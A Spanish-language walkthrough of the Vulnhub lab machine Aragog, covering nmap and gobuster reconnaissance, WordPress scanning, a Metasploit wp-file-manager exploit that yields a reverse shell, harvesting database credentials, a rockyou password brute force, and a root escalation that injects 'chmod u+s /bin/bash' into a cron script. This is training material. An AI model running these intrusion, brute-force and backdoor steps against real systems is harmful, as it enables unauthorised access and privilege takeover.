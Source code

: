 Tiramos nuestra rutina de reconocimiento con nmap: 

```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.101 -oN Target 

grep '^[1-9]' Target | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','

nmap -sCV -p21,22,2222,80,9898 192.168.1.101 -oN TargetsCV
```

Gracias a nmap, vemos que hay un servicio ssh y un servicio http

```bash
PORT   STATE SERVICE REASON         VERSION  
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
| ssh-hostkey:    
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)  
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSJJ1ZAbIA3lP2RbpxnhknzLJqrHne4be3xTLmVEXWg7YQ6FFZ/RA1VzmrFYPlvB1t1XwopptI+nA9BSG5+hllLyCQ1pDZkhIwyGHuBLZETD8cIJTlsxVCwnh67h7eeK4hTEtjp1rUodK30juDf5  
u7JnkwVfo78LvM8WV1LjVrmhsZiqzy1CxAoMFpiRp3ZlvpblL3gdd0wgSNrGqEwc6qJc6Z+RKGkLbnpgTnOsc6vGLs1xFOGrHF2qFeDpUWti0ZDSN31LtP1HtNItbBKSECcFD3KrN8nPaZCa2V9GA1jrpOOAF1j0ehcRlBoFqLZzQbO9RFeIkgqGNrz3  
PDt7vp  
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBESZsj5u/F88CLIXTeBD8OgiCM2u8sKBgbvvjKccwFmCBMh3GmOHGP8qzzQwVTMkq1aN0WSIk7h8/cHCT2tZLzE=  
|   256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMsH4OtBIy/He42Rc6KvtI6w2855JMLVloVFy5/0Rtj4  
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))  
| http-methods:    
|_  Supported Methods: GET POST OPTIONS HEAD  
|_http-title: Site doesn't have a title (text/html).  
|_http-server-header: Apache/2.4.38 (Debian)  
MAC Address: 08:00:27:DD:94:52 (Oracle VirtualBox virtual NIC)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el servicio http no vemos nada, vamos a fuzzear con gobuster a ver si encontramos algo:

```bash
gobuster dir -u "http://192.168.2.72/" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 20  
===============================================================  
Gobuster v3.6  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
===============================================================  
[+] Url:                     http://192.168.2.72/  
[+] Method:                  GET  
[+] Threads:                 20  
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt  
[+] Negative Status codes:   404  
[+] User Agent:              gobuster/3.6  
[+] Timeout:                 10s  
===============================================================  
Starting gobuster in directory enumeration mode  
===============================================================  
/blog                 (Status: 301) [Size: 311] [--> http://192.168.2.72/blog/]  
/javascript           (Status: 301) [Size: 317] [--> http://192.168.2.72/javascript/]  
/server-status        (Status: 403) [Size: 277]  
Progress: 224213 / 1185255 (18.92%)^C  
[!] Keyboard interrupt detected, terminating.  
Progress: 226628 / 1185255 (19.12%)  
===============================================================  
Finished  
===============================================================
```


Encontramos la ruta hacia /blog, vamos a ver que hay

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/a1baa27a-23a2-4239-a102-231170506ced" width="250" height="250">

No nos resuelve, así que vamos a ver el código fuente en busca de el nombre del host para poder meterlo dentro de nuestro /etc/hosts y así poder ver bien la página web. Al parecer hay un dominio **aragog.hogwarts** y un subdominio **wordpress.aragog.hogwarts** >> /etc/hosts. Una vez dentro del blog podemos ver que es un wordpress y ademas que la url de inicio de la administración de wordpress esta por defecto en /wp-admin. Tiramos un whatweb para ver que versión de wordpress es:

```bash
whatweb http://wordpress.aragog.hogwarts/blog
```

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/f6ade782-0eec-4884-9a57-600b7da00300" width="1000" height="100">

Tiramos un searchsploit  y encontramos los siguientes scripts:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/bcbe6367-b017-4b5a-8469-b536742d92be)

Antes de ver estos sploits, vamos a ver que nos dice wpscan:

```bash
wpscan --url http://wordpress.aragog.hogwarts/blog -e vp,u --api-token="APItoken"
```

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/407e2201-4858-4d53-ac69-3c2f667f5403" width="500" height="500">

wpscan nos reporta un montón de vulnerabilidades, vamos a escoger una que pinte bien :)

He probado muchas de las vulnerabilidades que hay en el wpscan y al parecer son falsos positivos, vamos a probar con mi siguiente opción que es el scanner de Metasploit:

`scanner/http/wordpress_scanner`

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/605653bd-9d51-45c5-95fc-5178a75c2775)

Encontramos en este scanner la siguiente vulnerabilidad `wp-file-manager`

En el mismo Metasploit vemos que existe un exploit que explota esta vulnerabilidad, pero antes de ejecutarlo vamos a ver que hace:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/4049d8a3-4811-4b49-91cf-29c85d92c10f)

viendo un poco por encima el exploit lo que hace es meter un archivo malicioso en wordpress ubicado en **/wp-content/plugins/wp-file-manager/lib/files/malicioso.php** ejecutarlo y una vez que nos entable la reverse shell lo elimina, pues vamos a ejecutarlo a ver que pasa:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/fcfa2dbf-ab74-45e4-a1c3-aae753c22892)

Hacemos una reverse shell hacia mi máquina por comodidad: 

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/f2764571-fe98-47b0-91c8-2e5da10fd86c)

Ahora con una consola mucho mas usable, pues lo primero que vamos hacer al saber que es un wordpress es buscar el archivo wp-config.php, dentro de el vemos una ruta muy interesante llamada config-default.php

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/d790eaef-837e-4a94-b883-bc76c8771d22)

Dentro de este archivo vemos las credenciales:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/28f0ab92-0cb7-453b-9790-4cc6acdf431d)

acabamos de sacar las credenciales de la base de datos de el wordpress, vamos a ver que hay dentro

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/17c61c3c-1d04-4beb-bb7c-0c8217d8f949)

dentro encontramos una password encriptada y un usuario con el que supongo que podemos entrar al wordpress, ahora con un usuario valido vamos a probar a hacer una fuerza bruta con el diccionario rockyou:

```bash
wpscan --url "http://192.168.1.101/blog" -U hagrid98 -P /usr/share/wordlists/rockyou.txt --api-token="ApiToken"
```

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/5a83444f-8ed1-4d67-8d68-0160db64c0a5)


Una vez hecha la fuerza bruta, conseguimos la contraseña xd, vamos a entrar por ssh a ver si toca la flauta y efectivamente se conecta al ssh:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/d8af0a03-e81b-4c49-b085-614725db479b?with=250)

Conseguimos la flag de user, vamos a por el ruteo, empiezo con sudo -l el cual me dice que no esta instalado sudo en la máquina, buscamos por permisos SUID (find / -perm -4000 -ls 2>/dev/null) pues vamos a por tareas cron , creamos el siguiente script para identificar tareas cron:

```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "^[<>]" | grep -vE "procmon|command|kworker"
    old_process=$new_process
done
```

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/a662c4b5-599c-4588-99d1-9f68793fb228?with=50)


y como vemos hay un script que cada cierto tiempo se ejecuta con privilegios... pues tan simple como meter dentro de este comando **chmod u+s /bin/bash** ahora la próxima vez que se ejecute la tarea cron va a tener permisos SUID la bash y ejecutando bash -p vamos a conseguir una consola como administrador.

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/557f5f7f-9578-44c9-be2d-5fb67ded3356?with=100) 

Dificultad 2/5


